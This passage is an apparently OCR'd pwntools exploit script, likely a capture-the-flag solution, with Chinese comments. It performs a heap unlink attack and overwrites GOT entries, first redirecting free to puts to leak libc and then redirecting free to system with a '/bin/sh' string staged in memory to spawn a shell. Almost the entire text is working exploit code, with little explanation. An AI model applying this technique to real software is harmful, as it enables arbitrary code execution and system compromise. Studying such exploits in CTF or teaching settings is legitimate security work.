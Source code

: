    ```python
       p.sendlineafter(b":",content)
   
   # def show(index):
       # p.sendlineafter(b'>',b'2')
       # p.sendline(str(index).encode())
   
   def free(index):
       p.sendlineafter(b'>',b'4')
       p.sendline(str(index).encode())
   
   add(0,b'a')      #0  溢出修改chunk2
   add(0x20,b'a')   #1  构造unlink
   add(0x80,b'a')   #2  触发unlink
   add(0x10,b"a")   #3  防止合并
   
   #构造unlink
   heap_list = 0x6020d0    #存放伪造unlink地址的heaplist地址
   fd = heap_list-0x18
   bk = heap_list-0x10
   content = p64(fd)+p64(bk)
   size = 0x21
   prve_size = 0x20
   next_size = 0x90
   payload0 =  p64(0)*3 +p64(0x31) + p64(0) + p64(size) + content + p64(prve_size)+p64(next_size)
   
   edit(0,payload0)
   # debug()
   #触发unlink
   free(2)
   
   #利用unlink，创造傀儡chunk2，通过chunk1控制傀儡chunk2
   new_addr = 0x6020d8
   payload1 = p64(0)*3 + p64(new_addr)
   edit(1,payload1)
   
   #利用傀儡，泄漏puts函数的got表，泄漏libc基地址
   payload1 = p64(elf.got["free"])     #写入free函数的got表,
   edit(1,payload1)
   
   payload2 = p64(elf.plt["puts"])[0:7] #用puts函数的plt地址hook掉
   edit(2,payload2)
   
   payload1 = p64(elf.got["puts"])     #写入puts函数的got表,后续free输出泄漏
   edit(1,payload1)
   debug()
   free(2)
   #获取libc基地址
   puts_addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   libc_base = puts_addr - libc.symbols['puts']
   sys_addr = libc_base + libc.symbols['system']
   success("puts_addr==>"+hex(puts_addr))
   success("libc_addr==>"+hex(libc_base))
   success("system_addr==>"+hex(sys_addr))
   
   #继续利用傀儡，hook掉free函数的got表，改为system函数地址
   payload2 = p64(elf.got["free"])     #写入strlen函数的got表
   edit(1,payload2)
   
   payload4 = p64(sys_addr)[0:7]      #修改free函数的got表
   edit(2,payload4)
   
   edit(3,b"/bin/sh\x00")
   # debug()
   ```